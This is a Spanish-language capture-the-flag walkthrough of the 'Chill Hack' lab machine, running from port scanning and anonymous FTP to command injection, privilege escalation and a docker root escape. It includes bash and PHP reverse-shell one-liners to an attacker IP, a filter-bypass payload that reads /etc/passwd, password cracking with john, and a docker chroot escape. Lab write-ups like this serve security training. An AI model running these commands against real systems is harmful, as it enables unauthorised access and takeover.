







# Chill Hack

## Enumeration

### Nmap

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.165.6 -oN allPorts.txt 

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

```bash
nmap -sC -sV -O -p21,22,80 -Pn 10.10.165.6 -oN targeted.txt 


PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.244.36
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Game Info
|_http-server-header: Apache/2.4.29 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 2.6.39 - 3.2 (93%), Linux 3.1 - 3.2 (93%), Linux 3.2 - 4.9 (93%), Linux 3.7 - 3.10 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
nmap --script=ftp-anon -p21 10.10.165.6 -oN scanFTP.txt

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
```

### FTP

```bash
ftp 10.10.165.6

dir
-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt

get note.txt
```


```bash
cat note.txt   
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

### HTTP

```bash
whatweb http://10.10.165.6 
```


```bash
gobuster dir -u http://10.10.165.6/  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 php,js,html,txt
```


Encontramos una ruta oculta en la cual es posible ejecutar algunos comandos




Bypass Linux Restrictions

```bash
id
whaomi;ls -la
whoami;cat /etc/passwd
```







## Exploit

Probamos posibles revshell

```bash
whoami;bash -i >& /dev/tcp/10.9.244.36/443 0>&1
whoami;php -r '$sock=fsockopen("10.9.244.36",443);exec("/bin/sh -i <&3 >&3 2>&3");'
```




Comprobamos en que versión de linux estamos

```bash
uname -a
uname -r 
cat /etc/*-release
lsb_release -a
```


## Privilege Escalation

Vemos si tenemos permisos sudo en algún lugar 


Ejecutamos el ejecutable para ver si podemos elevar nuestros privilegio de usuario.

```bash
sudo -u apaar /home/apaar/.helpline.sh
```



Como python esta instalado cambiamos para obtener una bin/bash

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```


comprobar si tenemos permisos suid en alguno archivo

```bash
find / -perm -4000 -ls 2>/dev/null
```


explorando encontramos un carpeta interesante, con el uso de python vamos a compartir esta carpeta


con `steghide` podemos si la imagen tiene algún contenido oculto

```bash
steghide extract -sf hacker-with-laptop_23-2147985341.jpg 
```


```bash
zip2john backup.zip > hash
```


```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt 
```


```bash
echo IWQwbnRLbjB3bVlwQHNzdzByZA== > b64
base64 -d b64
!d0ntKn0wmYp@ssw0rd

echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d
!d0ntKn0wmYp@ssw0rd
```


Comprobamos si es posible elevar privilegios al tener permisos en docker 

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```




